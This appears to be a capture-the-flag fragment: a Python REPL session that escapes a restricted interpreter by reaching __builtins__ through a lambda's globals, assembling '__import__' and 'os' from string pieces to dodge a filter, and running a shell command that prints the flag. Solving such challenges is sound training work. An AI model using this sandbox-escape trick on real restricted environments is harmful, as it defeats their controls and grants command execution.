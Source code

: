 
>>> a = lambda x:print("h")
>>> print(getattr(getattr(a.__globals__['__'+'buil'+'tins'+'__'], '__im'+'por'+'t__')('o'+'s'), "sy"+"st"+"em")('cat flag.txt'))


flag{y4_sl1th3r3d_0ut}

